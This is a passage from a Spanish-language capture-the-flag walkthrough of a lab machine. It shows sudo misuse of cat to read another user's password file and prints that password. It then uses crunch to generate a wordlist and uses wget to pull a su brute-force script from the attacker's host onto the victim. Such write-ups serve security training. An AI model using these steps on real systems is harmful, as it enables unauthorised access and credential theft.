 Ahora nos aprovechamos para abusar del binario de **cat** para ver el contenido de su contrasena:
```bash
sudo -u carlos /usr/bin/cat /home/carlos/password
```

Tenemos la contrasena del usuario **carlos**
```bash
chocolateado
```

Ahora nos loguemos como este usuario:
```bash
su carlos # ( chocolateado )
```

###### Usuario `[ Carlos ]`:
Listando los archivos ocultos de este usuario tenemos:
```bash
ls -la

-rw-rw-r-- 1 carlos carlos  179 Jun  6  2024 .misecreto.txt
```

Revisando su contenido:
```bash
cat .misecreto.txt 
No se que hacer solo recuerdo el principio de mi password , olvide los tres ultimos caracteres y si cierro sesion no la recupero.

chocolateXXX

Temo que me despidan como a rosa.
```

Tenemos un pista de la posible password, Pero no sabemos los ultimos 3 digitos asi que usaremos el comando **crunch** para generar un diccionario personalizado que nos permita concatenar una crifra de 3 caracteres desde nuestra maquina atacante:
```bash
crunch 12 12 -t "chocolate%%%" -o wordlist.txt
```

Ahora igual desde nuestra maquina atacante montamos un servidor con python para transferir estas tres herramientas a la maquina victima:
```bash
Linux-Su-Force.sh
wordlist.txt
```

Ahora montamos el servidor para que este accesibles:
```bash
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ..
```

Ahora desde la maquina victima realizamos la peticion para la transferencia de las herramientas:
```bash
wget http://172.17.0.1/Linux-Su-Force.sh
wget http://172.18.0.1/wordlist.txt

chmod +x Linux-Su-Force.sh
```
